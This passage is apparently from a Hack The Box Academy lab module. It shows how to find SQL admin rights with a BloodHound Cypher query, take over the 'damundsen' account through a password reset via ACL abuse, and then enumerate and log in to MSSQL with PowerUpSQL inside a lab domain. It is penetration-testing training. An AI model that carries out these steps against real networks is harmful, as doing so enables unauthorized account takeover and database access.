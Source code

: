 BloodHound, once again, is a great bet for finding this type of access via the `SQLAdmin` edge. We can check for `SQL Admin Rights` in the `Node Info` tab for a given user or use this custom Cypher query to search:

Code: cypher

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2

```

Here we see one user, `damundsen` has `SQLAdmin` rights over the host `ACADEMY-EB-DB01`.

### Using a Custom Cypher Query to Check for SQL Admin Rights in BloodHound

![https://academy.hackthebox.com/storage/modules/143/sqladmins_bh.png](https://academy.hackthebox.com/storage/modules/143/sqladmins_bh.png)

We can use our ACL rights to authenticate with the `wley` user, change the password for the `damundsen` user and then authenticate with the target using a tool such as `PowerUpSQL`, which has a handy [command cheat sheet](https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet). Let's assume we changed the account password to `SQL1234!` using our ACL rights. We can now authenticate and run operating system commands.

First, let's hunt for SQL server instances.

### Enumerating MSSQL Instances with PowerUpSQL

Privileged Access

```powershell
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM

```

We could then authenticate against the remote SQL server host and run
 custom queries or operating system commands. It is worth experimenting 
with this tool, but extensive enumeration and attack tactics against 
MSSQL are outside this module's scope.

Privileged Access

```powershell
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...

```


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession